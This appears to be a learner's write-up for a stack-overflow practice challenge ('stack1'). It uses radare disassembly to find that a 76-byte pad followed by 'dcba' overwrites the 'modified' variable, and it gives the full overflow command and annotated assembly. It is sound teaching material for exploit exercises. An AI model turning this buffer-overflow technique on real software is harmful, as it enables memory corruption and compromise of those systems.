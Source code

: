 
## Answer

From using radare we can see that we are trying to write the string `dcba` into the variable modified.

To do this we just need to fill up the buffer by passing an arg of length 64 + 12 chars once we reach this the next char will start writting into modified.  So to solve we can simply do:

`./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMdcba
`

Why is it 76 chars to write the whole of buffer when the buffer size is 64?

I think looking at the code:

```
mov dword [rbp - 0x54], edi # this is where arg1 is put
cmp dword [rbp - 0x54], 1 # check that we passed one arg (this must be checking the arg array len which must be stored in 0x54)

...

lea rax, qword [rbp - 0x50] # our arg must be stored at [rbp - 0x50] which is -80d (load the value in rbp - 0x50 into rax ready to call strcpy)

...

mov eax, dword [rbp - 4] # variable modified is stored in [rbp - 4] this means the variable we pass in has total space 0x50 (80d) - x4 which is 80-4= 76 bytes.  
#  Each char is a byte this is why we need to pad with 76 chars to overwrite into the modified variable at the bottom of the stack. 
#  This command actually moves modified into eax ready to be compared.
cmp eax, 0x61626364 #  check we have overwritten modified with `dcba` to do this they need to come in chars 77-80 on the string we pass in
```
